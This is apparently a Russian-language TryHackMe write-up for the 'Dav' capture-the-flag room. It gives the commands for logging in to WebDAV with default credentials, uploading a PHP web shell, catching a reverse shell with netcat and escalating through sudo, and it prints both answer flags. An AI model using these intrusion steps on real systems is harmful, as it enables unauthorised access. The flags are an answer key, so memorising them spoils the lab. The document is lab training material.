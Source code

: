 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Dav](https://tryhackme.com/r/room/bsidesgtdav) 

Всего 1 заданиe:
## Задание 1
Прочитать user.txt и root.txt

### Ответьте на вопросы ниже
пользователь.txt
```commandline
nmap -sC -sV <IP>
wget --http-user="wampp" --http-password="xampp" http://<IP>/webdav/passwd.dav
cat passwd.dav 
# wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
curl -u "wampp:xampp" -X PUT http://<IP>/webdav/test
cadaver http://<IP>/webdav
# wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
put shell.php
quit
nc -nlvp 4444
SHELL=/bin/bash script -q /dev/null
cd /home/merlin/
cat user.txt
```
```commandline
449b40fe93f78a938523b7e4dcd66d2a
```
корень.txt
```commandline
sudo -l
sudo cat /root/root.txt
```
```commandline
101101ddc16b0cdf65ba0b8a7af7afa5
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)